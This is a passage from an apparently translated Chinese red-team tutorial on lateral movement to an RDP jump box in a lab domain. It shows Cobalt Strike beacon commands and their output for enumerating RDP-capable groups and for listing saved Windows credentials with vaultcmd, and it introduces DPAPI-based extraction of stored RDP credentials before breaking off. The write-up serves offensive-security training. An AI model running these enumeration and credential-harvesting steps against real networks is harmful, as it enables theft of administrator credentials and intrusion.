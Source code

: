 <br>

**二、突破口**

****

我们已拿下了名为rasta_mouse的一名用户，该用户为普通域用户（Domain Users）。我们可以查询目标服务器，探测哪些用户/组可以使用RDP协议。



```
beacon&gt; powerpick Get-NetLocalGroup -ComputerName RDP01 -GroupName "Remote Desktop Users"
ComputerName : RDP01
AccountName : rasta-lan.local/Jump Box Users 
IsDomain : True 
IsGroup : True 
SID : S-1-5-21-2294392343-2072776990-791666979-1106
```

使用如下命令查询哪些用户属于“Jump Box Users”组：



```
beacon&gt; powerpick Get-NetGroupMember -GroupName "Jump Box Users"
GroupDomain : rasta-lan.local 
GroupName : Jump Box Users 
MemberDomain : rasta-lan.local 
MemberName : rastamouseadm 
MemberSID : S-1-5-21-2294392343-2072776990-791666979-1107 
IsGroup : False 
MemberDN : CN=Rasta Mouse (Admin),CN=Users,DC=rasta-lan,DC=local
```

从结果中可知，rastamouse有两个独立的账户，这表明我们需要获取rastamouse_adm的凭据才能继续攻击。下面我会介绍两种可能行之有效的方法。

<br>

**三、Credential Manager &amp; DPAPI**

****

如果目标用户选择了保存RDP凭据，并且我们也具备SeDebugPrivilege权限，这是提取用户凭据最为理想的场景。

我们可以在凭据管理器（Credential Manager）界面中查看Windows凭据，如下所示：

[![](https://p2.ssl.qhimg.com/t013bb247116f862b17.jpg)](https://p2.ssl.qhimg.com/t013bb247116f862b17.jpg)

当然我们也可以使用命令行来查询：



```
beacon&gt; shell vaultcmd /listcreds:"Windows Credentials" /all
Credentials in vault: Windows Credentials
Credential schema: Windows Domain Password Credential Resource: Domain:target=TERMSRV/rdp01 Identity: LANrastamouseadm Hidden: No Roaming: No Property (schema element id,value): (100,2)
```

具体的凭据信息保存在用户目录中：
